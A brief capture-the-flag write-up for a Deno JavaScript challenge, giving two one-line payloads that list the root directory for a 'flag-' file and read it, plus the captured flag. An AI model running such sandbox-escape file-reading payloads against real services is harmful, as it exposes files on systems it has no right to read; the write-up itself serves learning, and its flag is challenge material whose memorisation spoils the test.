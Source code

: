 # Denis JS

Solved by: @arifpeycal 

## Question:


## Solution:
1. `console.log([...Deno.readDirSync("/")].filter(f => f.name.startsWith("flag-")).map(f => f.name))` to get the flag name
2. `console.log(new TextDecoder().decode(Deno.readFileSync("/flag-<id>)));`

**Flag:** `TCP1P{hope_nagi_didnt_see_i_use_his_payload_to_solve_this_challenge}`

